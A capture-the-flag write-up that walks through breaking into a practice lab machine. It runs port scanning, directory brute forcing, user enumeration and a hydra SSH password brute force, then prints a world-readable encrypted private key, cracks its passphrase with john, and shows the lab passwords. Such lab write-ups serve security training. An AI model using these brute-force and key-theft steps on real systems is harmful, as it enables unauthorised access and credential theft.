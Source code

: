 **Tristan Gomez**

# Basic Pentesting


### Step 1

To begin, I'm going to use a SYN scan to see what ports are open on our target machine.

`sudo nmap -sS -Pn 10.10.124.115`

Looking at our output, the most interesting items are ports 22 and 80 are open. Since http is an active service, I am going to open up the IP address into 
my web browser.

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.                    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 12:24 PDT                                                    
Nmap scan report for 10.10.124.115                                                                                 
Host is up (0.17s latency).                                                                                        
Not shown: 994 closed ports                                                                                        
PORT     STATE SERVICE                                                                                             
22/tcp   open  ssh                                                                                                 
80/tcp   open  http                                                                                                
139/tcp  open  netbios-ssn                                                                                         
445/tcp  open  microsoft-ds                                                                                        
8009/tcp open  ajp13                                                                                               
8080/tcp open  http-proxy 
```

When I open the page, I see a maintenance page, but diving into the page's source we can see a comments that gives us an idea of where to look.
There is some sort of dev note page, but what is its URI? 

```
<html>

<h1>Undergoing maintenance</h1>

<h4>Please check back later</h4>

<!-- Check our dev note section if you need to know what to work on. -->


</html>

```

Lets use gobuster to brute force some web pages. `gobuster dir -w directory-list-2.3-small.txt -x .php  -u 10.10.124.115 `

Pretty quickly, we find a `/development` page. Let's check it out!

```
/development          (Status: 301) [Size: 320] [--> http://10.10.124.115/development/]

```

Opening up the page, we see two .txt files. Let's open them up.

```
Index of /development
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[TXT]	dev.txt	2018-04-23 14:52 	483 	 
[TXT]	j.txt	2018-04-23 13:10 	235 	 
Apache/2.4.18 (Ubuntu) Server at 10.10.124.115 Port 80

```

### dev.txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

### j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

So we have a `j` and `k` chatting about configurations, and a message to `j` that their password is easy to crack.
I'm going to run `enum4linux` on the target machine to see if I can find out who these users are. Looking at our output
```
...
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
...
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)


```

Appears like `j` is `jan` and `k` is well...`kay`. Hmm, well `jan's` password is supposedly really weak. I'm going to run `hydra` to see if I can
get a password hit from `rockyou`.

`hydra -l jan -P rockyou.txt ssh://10.10.124.115`


After some amount of time, I get a hit: `jan:armando`. I'm going to login. 
```
[22][ssh] host: 10.10.124.115   login: jan   password: armando

```

We can perform a  `ssh jan@10.10.124.115` and using our password we just found, we successfully login.

### Poking around
I ran ls and nothing was in the current directory. Checking `pwd` we are at `/home/jan`. Lets cd back into /home. When we `ls` here, we can see `jan` and `kay`. NICE! If I cd into `kay` there is a `pass.bak` file. If I try to cat the file, I get `cat: pass.bak: Permission denied`. Doing a quick check on the permissions of the file, looks like only `kay` can read of write this file. <br />

NOTE: `vim pass.bak` works and lets us skip the rest of the challenge. I think this is something the creator of the challenge didn't account for, but let's keep going through the motions. 


I ran a `ls -a` in `/home/.kay`. The most interesting thing to me is the `.ssh` directory. 
```
.   .bash_history  .bashrc  .lesshst  pass.bak  .ssh                       .viminfo
..  .bash_logout   .cache   .nano     .profile  .sudo_as_admin_successful

```

Jumping into the .ssh directory reveals three files. 

```
authorized_keys  id_rsa  id_rsa.pub

```

Checking the permissions of id_rsa...Oh, Oh no...all users can read this file. This si a big ouchie for Kay,

ls -l id_rsa -> `-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
`

Sure enough if we run `cat id_rsa` then we get

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

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
-----END RSA PRIVATE KEY-----

```

I saved the output of `id_rsa` and saved it into `id_rsa` on my system. Let's try to login with Kay's credentials!

```
$ ssh -i id_rsa kay@10.10.124.115
Enter passphrase for key 'id_rsa': 
```

Huh, I didn't consider the key being password protected. I am going to run `ssh2john` passing in `id_rsa` as an argument. I set the output of the program to be
`converted_key.txt`. Once this is done, I can run `john the ripper` to crack the password for they key.

```
john --wordlist=/usr/share/wordlists/rockyou.txt converted_key.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (/home/gomez22/Desktop/id_rsa)
1g 0:00:00:01 DONE (2021-08-17 14:14) 0.8130g/s 11659Kp/s 11659Kc/s 11659KC/s  0 0 0..*7¡Vamos!
Session completed

```

`john` quickly finds `beeswax` to be the password for the key. Let's login one more time. Bam! We are in.
Performing a `cat` on pass.bak gives us the final password/flag.

```
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
